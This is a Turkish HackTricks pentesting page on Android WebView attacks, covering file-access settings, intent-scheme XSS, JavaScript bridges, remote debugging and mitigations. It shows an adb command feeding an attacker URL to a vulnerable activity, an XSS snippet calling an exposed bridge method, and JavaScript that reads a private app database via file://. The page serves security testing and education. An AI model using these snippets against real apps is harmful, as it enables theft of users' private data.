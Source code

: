 # WebView Saldırıları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'u **takip edin**.
* Hacking hilelerinizi göndererek HackTricks ve HackTricks Cloud github depolarına PR göndererek **hacking hilelerinizi paylaşın**.

</details>

## WebView Yapılandırmaları ve Güvenlik Hakkında Basitleştirilmiş Kılavuz

### WebView Zafiyetlerinin Genel Bakışı

Android geliştirmenin kritik bir yönü, WebViews'ın doğru bir şekilde işlenmesini içerir. Bu kılavuz, WebView kullanımıyla ilişkili riskleri azaltmak için önemli yapılandırmaları ve güvenlik uygulamalarını vurgular.

![WebView Örneği](../../.gitbook/assets/image%20(718).png)

### **WebViews'da Dosya Erişimi**

Varsayılan olarak, WebViews dosya erişimine izin verir. Bu işlevsellik, Android API seviyesi 3'ten (Cupcake 1.5) beri mevcut olan `setAllowFileAccess()` yöntemi tarafından kontrol edilir. **android.permission.READ_EXTERNAL_STORAGE** iznine sahip uygulamalar, bir dosya URL şeması (`file://path/to/file`) kullanarak harici depolamadan dosyaları okuyabilir.

#### **Kullanımdan Kaldırılan Özellikler: Evrensel ve URL'lerden Dosya Erişimi**

- **URL'lerden Evrensel Erişim**: Bu kullanımdan kaldırılan özellik, dosya URL'lerinden kökenler arası isteklere izin veriyordu ve potansiyel XSS saldırıları nedeniyle önemli bir güvenlik riski oluşturuyordu. Android Jelly Bean ve daha yeni sürümlere hedeflenen uygulamalar için varsayılan ayar devre dışı bırakılmıştır (`false`).
- Bu ayarı kontrol etmek için `getAllowUniversalAccessFromFileURLs()` kullanın.
- Bu ayarı değiştirmek için `setAllowUniversalAccessFromFileURLs(boolean)` kullanın.

- **URL'lerden Dosya Erişimi**: Bu özellik de kullanımdan kaldırılmış olup, diğer dosya şema URL'lerinden içeriğe erişimi kontrol eder. Evrensel erişim gibi, varsayılan ayarı artırılmış güvenlik için devre dışıdır.
- Kontrol etmek için `getAllowFileAccessFromFileURLs()` kullanın ve `setAllowFileAccessFromFileURLs(boolean)` kullanarak ayarlayın.

#### **Güvenli Dosya Yükleme**

Varlıklara ve kaynaklara erişirken dosya sistemine erişimi devre dışı bırakmak için `setAllowFileAccess()` yöntemi kullanılır. Android R ve üstü sürümlerde varsayılan ayar `false` olarak ayarlanmıştır.
- `getAllowFileAccess()` ile kontrol edin.
- `setAllowFileAccess(boolean)` ile etkinleştirin veya devre dışı bırakın.

#### **WebViewAssetLoader**

**WebViewAssetLoader** sınıfı, yerel dosyaları yüklemek için modern bir yaklaşımdır. Aynı Köken politikasıyla uyumlu olması için http(s) URL'lerini kullanır ve bu şekilde CORS yönetimini kolaylaştırır.

### **JavaScript ve Intent Şema İşleme**

- **JavaScript**: WebViews'da varsayılan olarak devre dışıdır, `setJavaScriptEnabled()` aracılığıyla etkinleştirilebilir. JavaScript'i uygun güvenlik önlemleri olmadan etkinleştirmek, güvenlik açıklarına neden olabileceğinden dikkatli olunmalıdır.

- **Intent Şeması**: WebViews, `intent` şemasını işleyebilir ve dikkatli yönetilmezse saldırılara yol açabilir. Bir örnek zafiyet, kötüye kullanılabilecek bir açık WebView parametresi olan "support_url" içeriyordu ve bu parametre üzerinden kök site komut dosyası (XSS) saldırıları gerçekleştirilebilirdi.

![Zafiyetli WebView](../../.gitbook/assets/image%20(719).png)

adb kullanarak kötüye kullanma örneği:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Javascript Köprüsü

Android tarafından sağlanan bir özellik, WebView'deki **JavaScript'in** **yerel Android uygulama işlevlerini** çağırmasını sağlar. Bu, JavaScript'i yerel Android işlevleriyle entegre eden `addJavascriptInterface` yöntemi kullanılarak gerçekleştirilir ve _WebView JavaScript köprüsü_ olarak adlandırılır. Bu yöntem, kayıtlı JavaScript Arayüzü nesnesine WebView içindeki tüm sayfaların erişmesine izin verdiği için, hassas bilgilerin bu arayüzler aracılığıyla ifşa edilmesi durumunda güvenlik riski oluşturabilir.

### Önemli Düşünceler

- Android sürümü 4.2'nin altında hedeflenen uygulamalar için **aşırı dikkat** gereklidir, çünkü yansımayı kullanarak kötü niyetli JavaScript aracılığıyla uzaktan kod yürütme izni veren bir zayıflık bulunmaktadır.

#### Bir JavaScript Köprüsü Uygulama

- **JavaScript arayüzleri**, örneklerde gösterildiği gibi yerel kodla etkileşimde bulunabilir, burada bir sınıf yöntemi JavaScript'e açıklanmıştır:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- JavaScript Köprüsü, WebView'e bir arayüz ekleyerek etkinleştirilir:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
- Potansiyel olarak JavaScript aracılığıyla sömürülebilirlik, örneğin XSS saldırısı yoluyla, açığa çıkarılmış Java yöntemlerinin çağrılmasına olanak sağlar:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
- Riskleri azaltmak için, JavaScript köprüsü kullanımını APK ile birlikte gönderilen kodla sınırlayın ve uzaktan JavaScript yüklemeyi engelleyin. Eski cihazlar için minimum API seviyesini 17 olarak ayarlayın.

### Yansıma Tabanlı Uzaktan Kod Yürütme (RCE)

- Belgeleme yöntemi, belirli bir yük ile yansıma yoluyla RCE elde etmeyi sağlar. Bununla birlikte, `@JavascriptInterface` işaretlemesi yetkisiz yöntem erişimini engeller ve saldırı yüzeyini sınırlar.

### Uzaktan Hata Ayıklama

- **Uzaktan hata ayıklama**, **Chrome Geliştirici Araçları** ile mümkündür ve WebView içeriği içinde etkileşim ve keyfi JavaScript yürütme sağlar.

#### Uzaktan Hata Ayıklamayı Etkinleştirme

- Uzaktan hata ayıklama, bir uygulama içindeki tüm WebView'ler için etkinleştirilebilir:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Uygulamanın hata ayıklanabilir durumuna bağlı olarak hata ayıklamayı koşullu olarak etkinleştirmek için:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Keyfi Dosyaları Sızdırma

- Bir XMLHttpRequest kullanarak keyfi dosyaların nasıl sızdırılacağını gösterir:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Referanslar
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** paylaşın.

</details>
